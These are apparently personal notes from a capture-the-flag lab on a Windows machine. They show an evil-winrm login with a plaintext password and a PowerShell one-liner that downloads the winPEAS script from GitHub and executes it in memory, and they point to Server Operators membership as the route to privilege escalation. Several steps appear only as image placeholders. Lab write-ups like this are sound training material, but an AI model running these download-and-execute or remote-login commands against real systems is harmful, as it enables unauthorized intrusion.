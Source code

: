 
Still no Root flag means we have to escalate our access now.
```
evil-winrm -u 'jorden' -p 'rainforest786' -i 10.10.10.179    
```

![[Pasted image 20241002184740.png]]


![[Pasted image 20241002185019.png]]


![[Pasted image 20241002185539.png]]

So what really stand out here is that it is a member of server operators.

Let's see how to run winpeas or privs check

SO we have to run powershell winpeas and it works (i.e. i wasted my time trying to run x86 and 64 and any)
```
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

As we can see that we have access to sc
![[Pasted image 20241008072610.png]]

